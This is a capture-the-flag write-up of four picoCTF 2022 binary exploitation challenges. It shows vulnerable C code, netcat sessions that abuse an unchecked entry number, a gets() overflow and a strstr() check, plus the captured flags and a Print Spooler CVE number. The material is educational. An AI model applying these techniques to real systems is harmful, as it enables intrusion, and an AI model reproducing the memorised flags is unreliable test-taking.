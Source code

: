 ```yaml
---
title: "picoCTF 2022 - Binary Exploitation"
excerpt: "Writeup for the picoCTF 2022 - Binary Exploitation category"
last_modified_at: 2022-04-04
stickies: true
stickies_path: "/assets/stickies/picoctf.png"
toc: true
toc_label: "Challenges"
toc_sticky: true
categories:
  - Writeups
tags:
  - CTF
---
```


## Binary Exploitation
### basic-file-exploit
`100 points` `5148 solves`

> The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>
> Connect to the program with netcat:<br>
> `$ nc saturn.picoctf.net 54047`<br>
> The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/537/program-redacted.c).

The program first shows the menu for its function, to create or read entries in the database.

```text
1: create entry in database
2: read entry in database according to entry number
3: exit program
```

Scrolling through the source code reveals that the entry number `0` should give the flag.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
}
```

Since at least one entry must exist before it is allowed to input an entry number to read, a dummy entry was created first then the entry number `0` was inputted to the program, the flag is then returned.

```bash
└─$ nc saturn.picoctf.net 54047
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
test
test
Please enter the length of your data:
4
4
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```

Flag: `picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}`

<br>

### buffer overflow 0
`100 points` `4424 solves`

> `gets`<br>
> Smash the stack<br>
> Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:<br>
> `nc saturn.picoctf.net 51091`

```bash
└─$ nc saturn.picoctf.net 51091
Input: AAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

Flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`

<br>

### CVE-XXXX-XXXX
`100 points` `5009 solves`

> Enter the CVE of the vulnerability as the flag with the correct flag format: `picoCTF{CVE-XXXX-XXXXX}` replacing XXXX-XXXXX with the numbers for the matching vulnerability.<br>
> The CVE we're looking for is the first recorded remote code execution (RCE) vulnerability in 2021 in the Windows Print Spooler Service, which is available across desktop and server versions of Windows operating systems. The service is used to manage printers and print servers.

Google searched with the keyword “Windows Print Spooler Service RCE” and the CVE number was returned.

Flag: `picoCTF{CVE-2021-34527}`

<br>

### RPS
`200 points` `2607 solves`

> Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.<br>
> Connect to the program with netcat:<br>
> `$ nc saturn.picoctf.net 56981`<br>
> The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/444/game-redacted.c).

The source code revealed that the checking mechanism of whether the player won is by `strstr(<PLAYER_INPUT>, <OPTION_THAT_BEATS_COMPUTER>)`. In other words, the program checks whether the option that can be the computer exists in the string inputted by the user.

```c
char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
...
int computer_turn = rand() % 3;
printf("You played: %s\n", player_turn);
printf("The computer played: %s\n", hands[computer_turn]);

if (strstr(player_turn, loses[computer_turn])) {
  puts("You win! Play again?");
  return true;
} else {
  puts("Seems like you didn't win this time. Play again?");
  return false;
}
```

To exploit the mechanism, the user input `rockpaperscissors` was used for 5 times and it won all the games as it contained all of the available options, that when the program searches for the option string that can beat the computer, it definitely exists in the user input. The flag was hence returned.

```bash
Please make your selection (rock/paper/scissors):
rockpaperscissors
rockpaperscissors
You played: rockpaperscissors
The computer played: rock
You win! Play again?
Congrats, here's the flag!
picoCTF{50M3_3X7R3M3_1UCK_C85AF58A}
```

Flag: `picoCTF{50M3_3X7R3M3_1UCK_C85AF58A}`

<br>
